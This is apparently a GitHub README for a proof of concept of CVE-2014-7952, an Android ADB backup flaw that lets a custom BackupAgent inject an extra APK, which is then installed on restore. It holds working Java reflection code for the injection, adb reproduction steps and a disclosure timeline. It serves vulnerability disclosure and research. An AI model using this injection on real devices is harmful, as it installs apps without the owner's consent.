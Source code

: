 # ADB-Backup-APK-Injection
Android ADB backup APK Injection POC. Discovered by Imre Rad (SEARCH-LAB Ltd.), Hungary.

What is ADB backup/restore?
---------------------------
The Android Operating System offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a [BackupAgent](http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent's does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. Upon restoration of the backup archive, the system installs the injected, additional application.
The Backup Manager can be exploited through simple reflection:

```
	  String packageName = "com.searchlab.wifitest"; // package name of the application to be injected
	  
	  Method backupToTar;
	  Method getData;
		try {
			Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");

			Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
			
			backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
			backupToTar.setAccessible(true);		
			
			getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
			getData.setAccessible(true);
			Object backupData = getData.invoke(data);
			
			 
			backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
			backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
		    
			Log.v("MYBACKUP", "backuptotar invoked!");
			
		} catch (Exception e) {
			e.printStackTrace();
		}
```

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):

![ADB Backup Injection, custom BackupAgent](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-backupagenttest2.png "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar d:\tools\abe\android-backup-extractor-20140630-bin\abe.jar unpack backup.ab backup.tar
```

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Step 5: Verify that Wifi Test application was indeed installed.
The application runs with android.permission.CHANGE_WIFI_STATE and android.permission.ACCESS_WIFI_STATE permissions to demonstrate that privilege escalation was also possible.

![ADB Backup Injection, injected application](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-wifitest.png "ADB Backup Injection, injected application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today (2015-07-08), all Android versions are affected, including Android L.

Timeline
--------
SEARCH-LAB Ltd. responsibly reported this threat to the Android security team. At first, Google did not acknowledge the issue being security relevant. Later they kept requesting more time for further investigation, but the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android security team
2014-07-28: Google refused to treat the issue as a potential threat, but requested to hold off publishing it
2014-10-15: Google answered that it did not get fixed in the L release and kept requesting to hold off publishing it
2015-06-02: Google promised further info in a few days, but it never arrived
